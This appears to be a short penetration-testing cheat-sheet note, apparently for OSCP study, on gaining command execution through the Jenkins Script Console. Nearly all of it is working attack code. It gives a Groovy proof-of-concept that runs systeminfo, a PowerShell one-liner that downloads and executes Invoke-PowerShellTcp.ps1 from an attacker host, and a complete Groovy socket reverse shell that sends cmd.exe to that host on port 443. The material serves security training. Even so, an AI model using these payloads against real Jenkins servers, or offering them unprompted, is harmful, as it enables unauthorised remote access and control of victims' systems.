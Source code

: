 OSCP Book pg 825
Operators Handbook pg 104
TCM > Video 76
Manage Jenkins > Script Console
#### POC:
```jenkins - web app
println "cmd.exe /c systeminfo".execute().text
```
#### Powershell rev shell:
Manage Jenkins > Script Console
```jenkins - web app
def command = "powershell -c iex(new-object net.webclient).downloadstring(‘http://$KALI:80/Invoke-PowerShellTcp.ps1')"
def proc = command.execute()
println(proc.in.text)
```
#### CMD rev shell:
Manage Jenkins > Script Console
```jenkins - web app
String host="$KALI";
int port=443;
String cmd="cmd.exe";
Process p=new ProcessBuilder(cmd).redirectErrorStream(true).start();Socket s=new Socket(host,port);InputStream pi=p.getInputStream(),pe=p.getErrorStream(), si=s.getInputStream();OutputStream po=p.getOutputStream(),so=s.getOutputStream();while(!s.isClosed()){while(pi.available()>0)so.write(pi.read());while(pe.available()>0)so.write(pe.read());while(si.available()>0)po.write(si.read());so.flush();po.flush();Thread.sleep(50);try {p.exitValue();break;}catch (Exception e){}};p.destroy();s.close();
```
